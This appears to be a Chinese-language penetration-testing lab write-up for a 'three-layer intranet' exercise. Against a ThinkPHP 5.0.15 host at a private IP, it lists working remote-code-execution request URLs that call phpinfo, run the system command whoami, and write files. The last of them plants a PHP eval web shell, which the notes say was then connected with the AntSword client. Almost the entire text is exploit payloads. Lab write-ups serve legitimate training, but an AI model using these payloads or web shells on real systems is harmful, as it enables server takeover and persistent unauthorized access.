 # CFS 三层内网

## target 1

`http://192.168.1.73/public/`

`http://192.168.1.73/public/?s=1` 查看版本为 `ThinkPHP V5.0.15`

测试漏洞, 均成功

- php 代码: phpinfo

  `http://192.168.1.73/public/index.php?s=index/\think\app/invokefunction&function=phpinfo&vars[0]=100`

- 系统命令: whoami

  `http://192.168.1.73/public/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami`

- 写 phpinfo 到文件, http://192.168.1.73/public/shell.php

  `http://192.168.1.73/public/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=shell.php&vars[1][]=<?php phpinfo();?>`

- 写 shell 到文件, http://192.168.1.73/public/shell1.php

  `http://192.168.1.73/public/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=shell1.php&vars[1][]=<?php @eval($_POST[1]);?>`

  蚁剑成功连接
